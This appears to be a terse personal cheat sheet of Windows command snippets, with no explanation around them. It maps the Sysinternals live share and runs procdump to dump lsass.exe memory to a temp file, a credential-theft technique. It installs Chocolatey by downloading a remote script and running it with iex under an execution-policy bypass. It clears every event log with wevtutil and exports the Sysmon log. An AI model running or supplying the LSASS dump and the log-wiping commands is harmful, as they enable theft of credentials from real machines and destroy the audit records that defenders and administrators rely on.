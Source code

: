 Live sys internals
```
net use s: \\live.sysinternals.com\tools;
s:\procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1'
```

Choco install
```
Set-ExecutionPolicy Bypass -Scope Process -Force; 
iex ((New-ObjectSystem.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
```

Clear all logs
```
wevtutil el | Foreach-Object {wevtutil cl “$_”};
ping localhost;
```

Export sysmon log
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:sysmonview > $env:HOMEPATH\Downloads\eventlog.xml
```

